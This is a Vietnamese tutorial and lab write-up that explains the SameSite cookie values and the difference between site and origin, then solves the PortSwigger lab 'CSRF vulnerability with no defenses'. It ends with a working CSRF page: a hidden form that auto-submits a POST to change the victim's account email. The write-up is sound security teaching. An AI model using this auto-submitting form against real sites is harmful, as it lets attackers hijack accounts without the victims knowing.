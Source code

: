 ### So sánh SameSite bằng Strict, None, Lax trong cookies

| SameSite=None                                                                                                                                                                                                                                                                                                                           | SameSite=Lax                                                                                                                                                                                 | SameSite=Strict                                                                                                                                                                  |
| --------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- | -------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- | -------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| trong cookie là một cài đặt đặc biệt được sử dụng để xác định rằng cookie có thể được gửi qua các yêu cầu từ trang web khác, ngay cả khi đó là yêu cầu từ trang web thứ ba. Điều này là quan trọng để hỗ trợ các tình huống như iframe hoặc các yêu cầu từ trang web khác domain trong môi trường Cross-Origin Resource Sharing (CORS). | Cấp độ bảo mật ít hạn hơn. Cookie được gửi khi yêu cầu đến từ một trang web bên ngoài (liên kết), nhưng không gửi khi yêu cầu đến từ một trang web thứ ba qua một yêu cầu POST không an toàn | Cấp độ bảo mật cao hơn. Cookie chỉ được gửi khi yêu cầu đến từ cùng một trang web. Nó giúp đề phòng nhiều hơn khỏi các tấn công liên quan đến cookie, đặc biệt là tấn công CSRF. |

Ngoài các phương pháp đã xét, SameSite Cookie cũng được sử dụng ngăn chặn tấn công CSRF. Biện pháp này tập trung vào các giá trị Cookie trong request, đưa ra các quy định khác nhau cho cookies.

Trước hết, chúng ta cần hiểu về khái niệm site trong tình huống này. site được cấu tạo từ
3
3 phần: top-level domain (TLD - các tên miền cao nhất như .com, .net, .xyz, ...), phần TLD+1 đứng ngay phía trước TLD, cùng với scheme (http, https, ...).

![image](https://hackmd.io/_uploads/BkfvNlU5T.png)

Khác với site, origin bao gồm toàn bộ URL:

![image](https://hackmd.io/_uploads/Sy2d4e8qp.png)

Như vậy, SameSite tức là hai URL có cùng scheme, TLD, TLD+1. SameOrigin là toàn bộ
2
2 URL cần hoàn toàn giống nhau. Các bạn có thể theo dõi bảng sau để hiểu rõ hơn thuật ngữ SameSite:

## 1. Lab: CSRF vulnerability with no defenses

link: https://portswigger.net/web-security/csrf/lab-no-defenses

### Đề bài

![image](https://hackmd.io/_uploads/ryNy_YN9p.png)

### Phân tích

- Ứng dụng web tồn tại lỗ hổng CSRF tại chức năng update email của tài khoản.

Thực hiện đăng nhập với account cho sẵn `wiener:peter`, ta thử update email xem.

- Bắt request và phân tích: Khi update email, một POST request được gửi đến `/my-account/change-mail` với body chỉ chứa tham số email cần thay đổi. Có thể thấy không có bất kì cơ chế chống CSRF nào ở đây cả.

- ![image](https://hackmd.io/_uploads/rycZZcV96.png)

và khi mình thay đổi phần email và gửi lại trong repeater thì email cũng thay đổi theo có thể thấy trang web chỉ nhận diện người dùng qua cookie và mình sửa data từ request và trang web vẫn chấp nhận.

### Khai thác

- mình tạo một trang web giả mạo để gửi nạn nhân với nội dung sau:

```htmlembedded=
<html>
  <body>
    <form action="https://0a53007d03276aab8418401f009e003b.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="a@a.a" />
    </form>
    <script>
        document.forms[0].submit();
    </script>
  </body>
</html>
```
